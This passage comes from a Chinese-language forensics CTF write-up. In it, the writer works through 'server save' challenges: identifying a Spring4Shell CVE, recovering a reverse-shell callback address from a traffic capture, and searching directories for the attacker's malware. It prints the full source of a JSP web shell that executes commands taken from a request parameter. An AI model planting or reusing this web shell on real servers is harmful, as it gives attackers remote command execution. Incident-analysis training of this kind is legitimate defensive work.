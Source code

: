 那么答案就显而易见的在 github 仓库里有介绍，那么答案就是：**CVE-2022-22965**

### server save\_2

> 题目内容：黑客反弹 shell 的 ip 和端口是什么，格式为：10.0.0.1:4444

继续通过流量包，我们看到最后一条记录看到执行了`bash bbbb.sh`：  
[![](assets/1702520939-1ac104868a3b986cc93aba9c900397b9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213160003-9ef7e2ba-998d-1.png)  
在 helloworld 目录下发现 bbbb.sh，内容如下，是个反弹 shell 的命令：  
[![](assets/1702520939-630ebdcce61b29a41181dbc31758d3ad.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213160024-aba823ee-998d-1.png)  
那么答案就是**192.168.43.128:2333**。

### server save\_3

> 题目内容：黑客的病毒名称是什么？格式为：filename

我们先从几个目录开始寻找，有如下几个目录需要注意：

-   /usr/local/tomcat # 运行服务的目录
-   /root # root 用户目录
-   /home # 普通用户目录

运行的服务目录知识看到了 shell.jsp 的内容，没有找到更有用的信息。

```bash
<%
java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
int a = -1;
byte[] b = new byte[2048];
while ((a = in.read(b)) != -1) {
    out.println(new String(b));
}
%>
```

root 用户下也没有什么有用的信息，但是可以看到/home 下存在一个 guest 用户，进入看到有个 main 文件。

[![](assets/1702520939-2d6abc4d824a98410017b115b57b5061.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213160056-beb4ff34-998d-1.png)  
